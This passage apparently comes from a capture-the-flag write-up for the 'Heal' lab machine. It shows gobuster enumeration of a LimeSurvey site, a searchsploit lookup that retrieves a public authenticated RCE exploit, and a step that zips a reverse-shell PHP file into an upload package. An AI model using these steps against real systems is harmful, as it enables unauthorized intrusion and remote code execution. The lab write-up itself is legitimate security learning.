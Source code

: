```shell
➜ heal  gobuster dir -u http://take-survey.heal.htb/ -w ~/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://take-survey.heal.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/isaac/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/Admin                (Status: 302) [Size: 0] [--> http://take-survey.heal.htb/index.php/admin/authentication/sa/login]
/LICENSE              (Status: 200) [Size: 49474]
```
{: .nolineno}

## Initial Access
The login page is LimeSurvey and with the credentials I have obtained, I managed to logged into the admin page. I used `searchexploit` to discover a publicly published LimeSurvey vulnerability, and found LimeSurvey Authenticated Remote Code Execution (RCE). After that I learned how the vulnerability can be exploited.

```shell
➜ exploit  searchsploit limesurvey
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
[SNIP]
LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)       | php/webapps/50573.py
[SNIP]

➜ exploit  searchsploit -m php/webapps/50573.py
  Exploit: LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)
[SNIP]

➜ exploit  mv 50573.py exploit.py
➜ exploit  zip 0x5chltz.zip revshell.php config.xml
```
{: .nolineno}
